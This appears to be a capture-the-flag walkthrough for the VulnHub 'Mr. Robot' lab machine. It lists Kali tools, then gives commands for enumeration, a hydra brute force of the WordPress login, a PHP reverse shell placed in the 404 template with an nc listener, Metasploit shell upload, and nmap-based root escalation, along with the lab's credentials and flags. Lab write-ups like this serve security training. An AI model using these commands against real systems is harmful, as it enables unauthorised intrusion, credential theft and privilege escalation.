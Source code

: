 Project 1.0


Overview

The Mr. Robot vulnerable machine has three keys hidden in different locations. The goal is to find all three. Each key is progressively difficult to find.

github.com/besoben/project01 has a .docx file which contains screen shots of every step. Please enjoy.


Operating Systems used:

Kali Linux

https://www.kali.org/get-kali/

Mr. Robot:1 VulnHub

https://www.vulnhub.com/entry/mr-robot-1,151/


Tools/Commands used:

nmap - version 7.93

Nmap is a network scanner created by Gordon Lyon. Nmap is used to discover hosts and services on a computer network by sending packets and analyzing     the responses. Nmap provides a number of features for probing computer networks, including host discovery and service and operating system detection


nikto -version 2.1.6

Nikto is a free software command-line vulnerability scanner that scans webservers for dangerous files/CGIs, outdated server software and other           problems. It performs generic and server type specific checks. It also captures and prints any cookies received

gobuster

Gobuster is a tool used to brute-force:  URIs (directories and files) in web sites,  DNS subdomains (with wildcard support), Virtual Host names on       target web servers, Open Amazon S3 buckets, Open Google Cloud buckets, TFTP servers..

dirbuster - version OWASP DirBuster 1.0-RC1

DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. Often is the case now     of what looks like a web server in a state of default installation is actually not, and has pages and applications hidden within. DirBuster attempts     to find these.

wpscan - version 3.8.22

The WPScan CLI tool is a free, for non-commercial use, black box WordPress security scanner written for security professionals and blog maintainers to   test the security of their sites. The WPScan CLI tool uses a database of 38,431 WordPress vulnerabilities.

metasploit - version 6.2.36

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS   signature development. It is owned by Boston, Massachusetts-based security company Rapid7

burpsuite - version 2022.12.5

Burp Suite is an integrated platform and graphical tool for performing security testing of web applications, it supports the entire testing         process, from initial mapping and analysis of an application's attack surface, through to finding and exploiting security vulnerabilities.

hydra - version 9.4

Hydra is a pre-installed tool in Kali Linux used to brute-force usernames and passwords to different services such as FTP, ssh, telnet, MS SQL,         etc. Brute force can be used to try different usernames and passwords against a target to identify the correct credentials.

net cat - version 1.10-47

The Netcat ( nc ) command is a command-line utility for reading and writing data between two computer networks The communication happens using           either TCP or UDP. The command differs depending on the system ( netcat , nc , ncat , and others).
	

Walk through:

Footprinting and enumeration:

		whoami 

notes user

		ip address 

notes system ip

		sudo -i

super user/ root interactive

		nmap -O [ipadress/range]

scans range of ip addresses and lists operating system 

		arping -h [ipaddress/range]

this pings the arp network to map local network

		nikto -h [target-ipaddress]

vulnerbility scanner, set host [ip]

gobuster dir -u [target-url/ipaddress] -w [/usr/share/wordlist/dirbuster/directory-list.2.3-small.txt]
dictionary attack, against url searching for hidden directories

DirBuster application w report generation
target url, wordlist, don't be recursive (unneeded in this), File extension "php, txt"

Physically explored the website, url input, triggered 404, accessed wp-login, robots.

FIRST FLAG FOUND, [target-ipaddress/robots] > [target0ipaddress/flag-1-of-3.txt] and [target-ipaddress/fsocity.dic]

download [fsocity.dic]

cat head [fsocity.dic]
	to see what the first few lines of text were
wc [fsocity.dic]
	word count, it's huge [that's what she said]
cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  
	sorts all unique into a seperate file
wc [sorted_fsocity.dic]
	word count, significantly lower

wpscan [target-ipaddress]
	find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	-L list file upload
	-p unkown sets the password as uknown 
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered

USERNAME IS ELLIOT
Option 1:
hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'
	-l elliot, lower case to indicate exact user
	-P password file
	http-post-form, because it shown on burp as a post form
	/wp-login.php, post form location
	log and pass set as -L and -p, log and pass can be found on the burp 
		interception as being identifiers
	F=is incorrect sets fail point that is referenced in the error message when a wrong password is entered	
Option 2:
wpscan -u elliot -P [sorted_fsociet.dic]
	-u sets user as elliot, and -P sets password lists. syntax is easier, but enumeration on user id's is limited, so you must have a user id if unique user. It will check against admin etc. wpscan

[wp-username] = elliot 
[wp-pasword] = ER28-0652

Now we can log into wordpress. 

Forward Facing Application Leverage and generate damion shell:
Option #1
Log into wordpress application
Applications>edit>Edit 404 page template
Reverse Shell on the 404 page
	php reverse shell code: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
	php reverse shell, changed [attacker-ipaddress]/[port]

nc -lvnp 443
	net cat -listen, verbose, skip dns lookup, port [port]

Go back to the website, and place an incorrect url to trigger the 404 page, which in turns activates the reverse shell. 
WE ARE IN THE TERMINAL 
now in bin/sh$

Option #2
metasploit
	msfconsole
	search wordpress shell
	use 1
	show options
	set username [wp-username]
	set password  [wp-password]
	set rhost [targetip]
	exploit
	ERROR
	advanced options
	set wpcheck false
	exploit
	shell 

gain terminal access
whoami
group id
pwd
ls
cd /home 
ls
cd /robot
ls

SECOND FLAG FOUND [flag]/ username:[password ] but it's md5 encrypted
	cracked hash website (crack station) has it cracked and listed as [abcdefghijklmnopqestuvwxyz]

switch to robot user
su robot, you get an error stating you need to be in a terminal

Lateral Movement, New Shell, New User Owned:

python -c 'import pty;pty.spawn("/bin/bash")'
spawns a terminal
su robot with the password [abcdefghijklmnopqestuvwxyz]
cd /robots
ls
cat key-2-of-3.txt = 822c73956184f694993bede3eb39f959
find / -perm -4000 -type f 2>/dev/null
	finds files that being ran by their owner
nmap --version
research time -- it's vulnerable! 

Root escallation: 

nmap --interactive
nmap !sudo /bin/bash
exit
nmap !sh
cd /root
ls
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
